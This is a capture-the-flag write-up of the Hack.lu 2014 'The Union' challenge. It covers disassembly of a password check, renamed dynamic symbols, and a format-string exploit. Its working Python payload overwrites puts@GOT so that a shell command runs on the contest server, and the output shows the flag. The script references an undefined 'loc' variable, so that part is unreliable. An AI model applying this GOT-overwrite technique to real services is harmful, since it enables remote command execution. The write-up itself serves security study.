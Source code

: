 # Hack.lu CTF 2014: The Union

**Category:** Exploiting
**Points:** 200
**Author:** sqall
**Description:**

> Our biggest competitor the mining corporation, The Union, has a new way of organizing its mining facilities. On the surface, it looks like a mining location archive. But our man inside told us, it has a secret trapdoor that we can use to infiltrate the corporation and steal their secret. We need their secret. They have one success after another and it will not be long until we are finished. Our informant also told us that not everything is what it seems to be. We do not know what this means. Luckily for us, he managed to get us the blueprints of the system. So we should be able to study them before we went for the heist. So, this is your job. Study the blueprints and then go for the valuable “secret.txt”. This is everything we need to overcome them.
> Download: [theunion_9edfcf7b247775ab57da993863bfaabd](theunion_9edfcf7b247775ab57da993863bfaabd)
> `nc wildwildweb.fluxfingers.net 1423`

## Write-up

When connecting to the server, it greets us with the following prompt:
    
    	Welcome to 
     _   _                        _             _     
    | |_| |__   ___   _   _ _ __ (_) ___  _ __ ( )___ 
    | __| '_ \ / _ \ | | | | '_ \| |/ _ \| '_ \|// __|
    | |_| | | |  __/ | |_| | | | | | (_) | | | | \__ \
     \__|_| |_|\___|  \__,_|_| |_|_|\___/|_| |_| |___/
    
    			mining archive.
    
    Please give the unions slogan and secret word:

By looking at the disassembly of the binary, we figure out that the password is the string `gold>silver`, concatenated with the contents of the file `salt.txt`, which we don't know.

When playing with the binary locally, we noticed the following oddity: Even if we had a trailing newline in the `salt.txt`, we could still get access even though the input password is read without the trailing newline. This caused us to take a closer look at the string comparison part of the code:

    080489af         mov        dword [ss:esp+0x8], 0xc         # argument 3 ??
    080489b7         mov        eax, dword [ss:ebp+var_40]
    080489ba         mov        dword [ss:esp+0x4], eax         # argument 2   
    080489be         lea        eax, dword [ss:ebp+var_21]      
    080489c1         mov        dword [ss:esp], eax             # argument 1         
    080489c4         call       strcmp@PLT
    080489c9         test       eax, eax
    080489cb         jne        0x80488fc

At this point we recalled the hint "not everything is what it seems to be" and figured that probably not `strcmp` is called, but `memcmp`, which takes an additional length parameter. This means that actually only the first 12 characters of the password are checked, which is only one additional character to what we already know! After two tries we find the correct access code:
    
    Please give the unions slogan and secret word:
    gold>silverb
    Correct slogan.
    
    1) Add mine
    2) Show mines
    3) Delete mine
    4) Show profit
    5) Exit

Looking at the xrefs of some of the strings in the binary, we find the "trapdoor":

    1) Add mine
    2) Show mines
    3) Delete mine
    4) Show profit
    5) Exit
    99
    Ufff! You found our trapdoor.
    Ok here you go. Everything in here is not what it seems to be.
    If you do not understand this, you are not quite there yet.

That's not really helpful. The disassembly of the function however is:

    08049209         mov        ebp, esp
    0804920b         sub        esp, 0x18
    0804920e         mov        dword [ss:esp], 0x8049b08                           ; "Ufff! You found our trapdoor.", argument #1 for method puts@PLT
    08049215         call       puts@PLT
    0804921a         mov        eax, dword [ds:stdout]                              ; stdout
    0804921f         mov        dword [ss:esp+0x4], eax                             ; argument #2 for method fputs@PLT
    08049223         mov        dword [ss:esp], 0x8049b28                           ; "Ok here you go. Everything in here is not what it seems to be.\\n", argument #1 for method fputs@PLT
    0804922a         call       fputs@PLT
    0804922f         cmp        dword [ss:ebp+arg_0], 0x0
    08049233         je         0x8049243
    
    08049235         mov        dword [ss:esp], 0x8049b68                           ; "This is what you should use.", argument #1 for method printf@PLT
    0804923c         call       printf@PLT
    08049241         jmp        0x804924f
    
    08049243         mov        dword [ss:esp], 0x8049b88                           ; "If you do not understand this, you are not quite there yet.", argument #1 for method puts@PLT, XREF=sub_8049208+43
    0804924a         call       puts@PLT
    
    0804924f         mov        eax, dword [ds:stdout]                              ; stdout, XREF=sub_8049208+57
    08049254         mov        dword [ss:esp], eax                                 ; argument #1 for method fflush@PLT
    08049257         call       fflush@PLT
    0804925c         leave      
    0804925d         ret       

Two things of interest:

1. `fputs(..., stdout)` is used, although it does the same thing as `puts`, which is used in the same function
2. The call to `printf` is unreachable, so probably some kind of hint

We suspect that `fputs` and `printf` are also not what they seem. Some digging into the ELF headers confirms this: `DT_STRTAB` points to a string table that contains slightly different function names than the symbol table would have us believe. We note:

* `strcmp` is really `strncmp`
* `printf` is really `system`
* `fputs` is really `printf` 

`printf` is never called with user input, but `fputs` is. This leaves us with a format string vulnerability, which can be triggered as follows:

    1) Add mine
    2) Show mines
    3) Delete mine
    4) Show profit
    5) Exit
    1
    Please give the location:
    %d
    Please give the type of the mine:
    foo 
    Please give the profit of the mine:
    1
    1) Add mine
    2) Show mines
    3) Delete mine
    4) Show profit
    5) Exit
    4
    Do you want to see the profit?
    Location: Dingo canyon
    Type: silver
    y/n
    n
    Do you want to see the profit?
    Location: Joe's rock
    Type: gold
    y/n
    n
    Do you want to see the profit?
    Location: Dynamite Bill's boulder
    Type: diamond
    y/n
    n
    Do you want to see the profit?
    Location: %d
    Type: foo
    y/n
    y
    Profit for location:
    -143864192             <= this is the output of the printf
    foo
    1

When breaking on `fputs@PLT`, we can inspect the stack layout and we find that the user-controlled string `Type: foo` is conveniently located at stack offset 42.

From here the exploit is straightforward: We perform two 2-byte writes to overwrite `puts@GOT` (0x0804b028) so that it contains the address of `printf@PLT` (0x080485e0), which is really `system`. The type of our mine serves both as the pointers for the `%hn` modifiers and as the shell command we want to execute.

This Python script produces output that can be piped right into the server to get the flag:

    print 'gold>silverb'
    print 1
    print '%2052d%12$hn%32220d%13$hn'
    print loc
    print 'sh #BB\x2a\xb0\x04\x08\x28\xb0\x04\x08'
    print 1
    print 4
    print 'n\nn\nn\ny'
    print 'cat secret.txt\n' * 100

And sure enough:

    $ python2 input.py | nc wildwildweb.fluxfingers.net 1423
    ...
    FLAG{d1aM0nd>G0lD}
    FLAG{d1aM0nd>G0lD}
    FLAG{d1aM0nd>G0lD}
    FLAG{d1aM0nd>G0lD}
    FLAG{d1aM0nd>G0lD}
    FLAG{d1aM0nd>G0lD}
    ...
    

## Other write-ups and resources

* none yet
